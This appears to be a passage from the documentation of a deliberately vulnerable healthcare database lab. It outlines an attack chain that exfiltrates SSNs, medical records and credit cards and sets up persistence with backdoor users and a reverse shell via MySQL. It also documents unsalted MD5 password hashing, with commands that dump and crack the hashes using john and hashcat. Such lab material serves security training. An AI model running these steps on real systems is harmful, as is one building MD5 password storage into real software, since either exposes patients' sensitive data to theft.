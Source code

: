 ```
4. Data Exfiltration:
   ├─ Dump patients table (50 SSNs)
   ├─ Extract medical_records (200+ records)
   ├─ Export prescriptions and lab results
   └─ Copy billing information (credit cards)

5. Persistence:
   ├─ Create backdoor MySQL users
   ├─ Modify stored procedures
   ├─ Install triggers for data capture
   └─ Establish reverse shell via MySQL
```

---

## Intentional Vulnerabilities

### 1. Cryptographic Weaknesses

#### MD5 Password Hashing
**Location:** `users` table, `password_hash` column

**Vulnerability:** MD5 is cryptographically broken and unsuitable for passwords.

**Issues:**
- Fast hashing allows rapid brute force (billions of hashes/second)
- No salt used (vulnerable to rainbow tables)
- Collision attacks possible
- MD5 hashes trivially crackable

**Example:**
```sql
-- Stored password hash for 'admin'
SELECT username, password_hash FROM users WHERE username='admin';
-- Returns: 5f4dcc3b5aa765d61d8327deb882cf99

-- Crack with:
echo "5f4dcc3b5aa765d61d8327deb882cf99" > hash.txt
john --format=Raw-MD5 hash.txt
# Cracks instantly: "password"
```

**Attack:**
```bash
# Extract all password hashes
mysql -u reporting -preports -h localhost healthcare_db \
  -e "SELECT username, password_hash, role FROM users" > hashes.txt

# Crack with hashcat
hashcat -m 0 -a 0 hashes.txt /usr/share/wordlists/rockyou.txt

# Most passwords crack within seconds
```

